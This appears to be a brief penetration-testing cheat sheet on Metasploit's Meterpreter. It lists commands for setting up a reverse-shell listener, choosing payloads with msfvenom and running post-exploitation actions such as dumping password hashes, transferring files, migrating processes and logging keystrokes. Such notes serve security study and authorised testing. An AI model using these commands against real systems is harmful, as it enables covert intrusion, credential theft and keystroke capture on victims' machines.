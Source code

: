 ##### Basics
The Meterpreter is a Metasploit agent, staying well out of sight of the target, and establishing encrypted TLS connection to the attacker.
Meterpreter will be detected by major antivirus software, but is still very stealthy.
Because the Meterpreter runs on the RAM, it will be gone by the time the device has rebooted.
Meterpreter will connect to a running MSFConsole session.

##### Listening
To listen for a reverse shell, use (in MSFConsole):
```
use exploit/multi/handler
set PAYLOAD USED_PAYLOAD 
set LHOST IP
set LPORT PORT
set ExitOnSession false
exploit -j
```

##### Payloads
There are many payloads available, for a lot of different platforms. To list them, use 
```
msfvenom --list payloads | grep meterpreter
```

When you decide the payload, use these factors:
- The operating system of the target
- Available components on the target's system (Python, PHP, etc)
- Allowed network connection types

##### Commands
Run `help` to get a list with description of all commands.

Important commands:
```
background       // Background the current session.
sessions         // View and switch between sessions.
run              // Execute a Meterpreter script or module.
upload/download  // Uploads/downloads content to or from the target machine.
shell            // Drops into a system shell on the target.
hashdump         // Dums the contents of the SAMM database.
getuid           // Check user privilege.
search           // Search for file on target system.
show options     // View all info
```


###### Migration
Process migration will help you interact, stabilize and record keystrokes on a program.
Usage: `migrate PID`
Logging keys: `keyscan_start`, `keyscan_stop`, `keyscan_dump`
Note: This will change the user privilege level, which you might not be able to gain back.

Usage:
```
pid
```
